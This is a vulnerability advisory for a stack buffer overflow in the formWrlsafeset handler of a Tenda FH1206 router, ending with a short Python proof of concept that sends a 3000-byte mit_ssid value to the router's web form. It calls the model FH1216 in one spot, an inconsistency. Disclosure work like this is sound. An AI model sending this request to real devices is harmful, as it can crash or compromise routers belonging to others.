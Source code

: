 

# formWrlsafeset

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **formWrlsafeset** function. The function receives the `mit_ssid` parameter from a POST request. `   sprintf(v42, "%s\t%s", v23, Var);` The statement will cause a buffer overflow. The `mit_ssid` value provided by the user may exceed the capacity of the `v42` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/d364f34d-5898-4afa-be92-4bd3393771f4)
![image](https://github.com/user-attachments/assets/1a36bd00-96f6-49fe-ab7e-531b27b4024e)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWrlsafeset"
payload = b"a"*3000

data = {"mit_ssid": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/f9f9baaa-24b8-4037-b58b-916f4244ad52)
